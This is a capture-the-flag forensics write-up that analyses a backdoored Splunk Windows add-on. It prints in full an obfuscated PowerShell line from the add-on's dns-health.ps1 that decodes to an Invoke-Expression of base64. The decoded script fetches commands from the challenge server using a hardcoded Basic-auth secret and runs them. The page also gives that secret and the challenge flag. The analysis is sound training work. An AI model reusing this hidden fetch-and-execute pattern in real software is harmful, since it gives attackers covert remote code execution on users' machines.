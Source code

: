 +++
title = "Backdoored Splunk II"
description = "You've probably seen Splunk being used for good, but have you seen it used for evil?  \n  \n**NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag.**  \n  \n**Download the file(s) below and press the `Start` button on the top-right to begin this challenge.**"
authors = ["Tyr"]
date = 2024-09-30

[taxonomies]
categories = ["forensics"]
+++

## Description

You've probably seen Splunk being used for good, but have you seen it used for evil?  
  
**NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag.**  
  
**Download the file(s) below and press the `Start` button on the top-right to begin this challenge.**

----

When accessing the web page, it returns only the following message:
- `{"error":"Missing or invalid Authorization header"}`

To investigate, let’s intercept the traffic using BurpSuite. This confirms that our access returns a `401 UNAUTHORIZED` error.
![](files/7x2qJbo.png)

Next, we download the provided zip file, which appears to be a Splunk Add-On for Windows. Exploring the contents reveals several PowerShell scripts in the `/bin/powershell` directory that are worth examining. In the `dns-health.ps1` script, we find an intriguing line:

```powershell
[STRinG]::JoIN('',[chAr[]](36 , 79 ,83 , 86, 69 ,82 ,32, 61,32,39 , 105, 101, 120 , 32 , 40 ,91 ,83 , 121 , 115 , 116,101 , 109, 46,84 ,101 ,120 , 116 ,46,69 ,110 ,99, 111 , 100, 105 ,110 ,103 ,93, 58 ,58 ,85, 84,70 , 56,46,71 ,101 ,116,83,116, 114 , 105 , 110, 103 ,40 , 91 , 83 ,121 , 115 ,116, 101, 109 , 46 ,67 ,111, 110,118 , 101, 114 ,116 , 93, 58 ,58, 70,114 ,111, 109 ,66,97 , 115, 101,54, 52 , 83 , 116 , 114 ,105 , 110,103,40 ,34,73,121 , 65 , 107,85, 69 , 57 , 83,86 ,67 ,66 ,105,90 ,87, 120, 118 , 100,121, 66,112 ,99,121 , 66 ,107 ,101, 87 , 53 , 104,98 ,87 , 108 , 106, 73 , 72 , 82 , 118 ,73, 72,82 , 111, 90 , 83, 66, 121 , 100 , 87, 53 , 117 ,97 , 87 , 53 , 110, 73,72 ,78, 108 ,99, 110 , 90 , 112, 89,50 ,85 , 103, 98 ,50 ,89,103 , 100,71,104 ,108,73, 71 ,66 , 84, 100, 71, 70 , 121 , 100 ,71 , 65, 103, 89, 110,86,48, 100,71 , 57, 117 , 68, 81, 112,65 ,75 , 67,82,111 ,100 ,71 ,49 , 115 ,73 , 68,48,103, 75 ,69, 108,117,100, 109 ,57,114 , 90 , 83 , 49,88, 90 ,87,74,83,90, 88, 70, 49, 90,88, 78 ,48, 73,71 ,104 ,48 ,100,72 , 65 , 54 ,76, 121, 57,106 , 97,71, 70,115,98 ,71, 86 ,117 , 90, 50,85 ,117,89 , 51 ,82,109,76 ,109, 100, 104,98 ,87 ,86, 122 ,79 , 105, 82 ,81 ,84 , 49,74, 85 , 73,67,49 ,73 , 90 ,87 ,70,107 , 90, 88 , 74,122 ,73,69, 66 ,55 ,81 ,88 , 86 ,48 ,97 ,71 ,57 , 121 ,97,88, 112,104, 100 ,71 ,108, 118,98,106 , 48 ,111,73 ,107, 74, 104,99,50 ,108,106,73,70, 108 , 116, 82,109,112 ,104, 77 ,108, 74 ,50 ,89,106 ,78 , 74 ,78,109 ,82, 72 , 97,72, 66, 106 ,77 , 84 ,108 ,119, 89 , 122,69, 53,77 , 71 , 70 , 72 ,86, 109,90, 104 , 83 , 70,73,119 ,89 , 48, 89 , 53 ,101 ,108, 112, 89 , 83 , 106,74 , 97, 87 ,69,112 , 109 ,89 ,122, 74,87 ,97, 109,78, 116, 86,106 , 65, 105,75, 88 , 48, 103 , 76,86 ,86 ,122, 90 , 85,74 , 104 ,99, 50,108, 106 ,85, 71, 70 ,121,99,50 , 108 , 117 , 90,121 , 107 ,117, 81,50 ,57,117, 100, 71 , 86 , 117, 100 , 65, 48 , 75,97 , 87,89 ,103, 75 ,67, 82 , 111,100 ,71 , 49, 115 ,73 ,67,49 ,116 , 89 , 88, 82,106 ,97 , 67 , 65,110, 80, 67 , 69 , 116 , 76,83 , 103, 117 , 75 ,106 , 56 ,112 ,76 , 83,48,43,74,121 , 107 ,103 , 101,119 ,48 ,75, 73,67 , 65 ,103,73 , 67 , 82, 50,89 ,87, 120,49 ,90 ,83, 65 , 57 , 73, 67, 82, 116 ,89, 88 , 82,106 ,97 ,71, 86,122, 87, 122,70,100 , 68, 81 ,111,103 , 73 ,67,65 , 103 , 74 , 71, 78 ,118, 98 ,87 ,49, 104 ,98 ,109 ,81, 103,80 , 83 , 66, 98 ,85 , 51 , 108, 122 , 100 ,71,86, 116, 76,108 ,82, 108 , 101,72,81,117 ,82,87 ,53 ,106 ,98 , 50, 82 , 112 ,98,109 ,100,100 , 79 , 106 , 112 ,86 ,86 , 69 , 89,52 ,76,107 , 100,108, 100 , 70, 78,48 ,99,109 , 108,117 , 90 , 121, 104 , 98 , 85, 51, 108 ,122, 100, 71, 86, 116 , 76 , 107, 78 ,118 ,98, 110,90, 108 , 99, 110,82,100, 79,106,112, 71,99,109, 57, 116 , 81 , 109 , 70 , 122 , 90 , 84,89 , 48 , 85, 51 , 82,121 , 97 ,87,53, 110,75,67,82 ,50,89 , 87 , 120 , 49 ,90 , 83 , 107 ,112 ,68, 81,111, 103 , 73, 67, 65 ,103 ,83 ,87, 53 ,50 , 98 , 50, 116 , 108, 76,85,86 , 52 ,99 ,72, 74 ,108, 99,51 ,78, 112 ,98, 50 , 52 , 103, 74, 71, 78,118, 98, 87 , 49 ,104 ,98, 109 ,81 , 78 ,67 ,110,48 , 112 , 34,41, 41 , 41,39 )) | &( $PsHomE[21]+$PsHoMe[30]+'X')
```

Decoding this line from ASCII using [CyberChef](https://cyberchef.org/), we discover that it’s an `Invoke-Expression` (`iex`) command executing a base64-encoded script:
![](files/y4W4lg5.png)

Upon decoding the base64-encoded command, it appears to use an `Invoke-WebRequest` with basic authentication. Specifically, it sends an authorization header with `backdoor:this_is_the_http_server_secret` encoded in base64 as `YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0`. 
![](files/r2ZbIFv.png)

By adding this line in BurpSuite’s header section:
- `Authorization: Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0`

Bingo! This grants us access to execute the command through `iex`, which is:
- `echo flag{e15a6c0168ee4de7381f502439014032}`
![](files/Kaw1GyV.png)

The flag is: `flag{e15a6c0168ee4de7381f502439014032}`
